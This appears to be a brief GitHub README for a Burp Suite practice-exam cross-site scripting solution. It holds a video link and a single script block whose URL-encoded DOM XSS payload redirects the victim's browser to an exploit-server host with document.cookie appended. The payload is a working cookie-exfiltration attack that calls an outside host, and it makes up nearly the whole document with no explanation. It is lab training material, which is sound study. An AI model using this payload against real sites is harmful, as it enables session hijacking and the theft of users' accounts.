# BurpPracticeExamXSS

https://www.youtube.com/watch?v=fNoX_9v6-aY

```
<script>
location='https://xxx.web-security-academy.net/?query=burpdomxss%22%2C%22test%22%3A(window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-xxx%252eweb-security-academy%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D)%7D%2F%2F';
</script>
```
